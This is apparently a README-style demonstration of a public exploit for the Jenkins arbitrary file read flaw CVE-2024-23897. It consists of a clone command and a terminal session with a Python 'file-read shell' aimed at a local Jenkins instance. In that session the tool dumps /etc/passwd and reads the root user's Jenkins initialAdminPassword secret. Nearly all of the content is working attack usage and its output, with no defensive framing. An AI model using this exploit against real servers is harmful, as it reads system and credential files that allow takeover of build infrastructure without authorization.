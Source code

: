 ```bash
git clone https://github.com/godylockz/CVE-2024-23897.git
┌──(venv)─(kali㉿kali)-[~/Desktop/CVE-2024-23897]
└─$ python3 jenkins_fileread.py -u http://127.0.0.1:8080 
Welcome to the Jenkins file-read shell. Type help or ? to list commands.

file> /etc/passwd
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
mysql:x:110:110:MySQL Server,,,:/nonexistent:/bin/false
sync:x:4:65534:sync:/bin:/bin/sync
ftp:x:111:112:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
vmdak:x:1000:1000::/home/vmdak:/bin/sh
games:x:5:60:games:/usr/games:/usr/sbin/nologin


file> /root/.jenkins/secrets/initialAdminPassword
140ef31373034d19a77baa9c6b84a200
file> 

```

